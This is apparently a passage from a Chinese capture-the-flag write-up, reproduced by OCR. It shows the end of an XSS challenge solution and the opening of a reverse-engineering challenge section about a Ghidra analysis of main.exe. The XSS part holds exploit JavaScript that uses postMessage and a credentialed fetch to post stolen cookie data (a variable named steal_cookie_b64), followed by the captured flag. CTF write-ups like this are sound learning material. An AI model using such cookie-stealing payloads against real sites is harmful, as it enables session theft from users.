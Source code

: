 ```html
         
         otherwin.postMessage(`return fetch("/result", {
    method: "POST",
    credentials: "include",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "wo zhong yu zuo chu lai le wo hao kai xin"
    },
    body: "comment=${steal_cookie_b64.substr(64, 25 - '"+name+"w'.length)}%22%2Bname%2B%22${HOST.substr(0,1)}"
}).then((resp)=>{
    console.log(resp);
    return "PUTEND:"+resp.status.toString();
})`, "*");
    }
    
})
</script>
<!-- ZmxhZz1mbGFnJTdCeDU1X3N0aWxsX2FsaXZlJTI2JTNEJTNFXyUzQytfMzJjYjkyNzYzNyU3RA== -->
<!-- flag=flag{x55_still_alive&=>_< _32cb927637} -->

EOF
```

## 逆向工程不需要F5
标题是假的，F5还是用的，只是不能只用F5（ghidra用户表示F5是什么？）。

附件解压出来16个dll已经感觉非常重量级了，把main.exe拖进ghidra看着反编译的代码，大脑原地死机
